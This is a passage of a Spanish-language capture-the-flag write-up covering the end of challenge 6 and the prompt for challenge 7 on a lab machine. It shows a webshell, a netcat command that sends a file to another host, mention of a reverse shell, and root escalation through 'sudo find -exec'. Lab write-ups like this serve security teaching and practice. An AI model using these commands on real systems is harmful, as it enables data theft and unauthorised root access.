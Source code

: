 Una vez hecho este proceso, el archivo ZIP se descomprime y tenemos una webshell funcional.

![](img/06-shell.png)

Investigamos la máquina y transferimos los archivos que nos parecen interesantes, por ejemplo un binario con nombre *decrypt*.

```
cat [FILE] | nc 192.168.2.16 3000
```
![](img/06-file-exfilt.png)

Tras no encontrar demasiada información útil, ni la flag, utilizamos la webshell para establecer una shell reversa y la convertimos en interactiva para poder utilizar `su`.

Tras acceder como el usuario *ileacorp*, utilizamos `sudo -l` y encontramos que es posible utilizar *find*.

![](img/06-elevate.png)

Usamos find para buscar archivos en `/root/` y encontramos `/root/.flag`, leemos su contenido
```
sudo find /root/.flag -exec cat {} \;
```

Aunque no es necesario conseguir una shell de root para este reto, para el siguiente reto si es necesario elevar
```
sudo find . -exec /bin/bash \;
```

FLAG: `congratz`


## Reto 7 - Open Sesamus!
```
El objetivo es identificar la ip de backup server y conseguir el acceso a dicha máquina. El flag es el nombre del usuario, seguido de "_" y el password de dicha máquina. Ejemplo: usuario_password
```

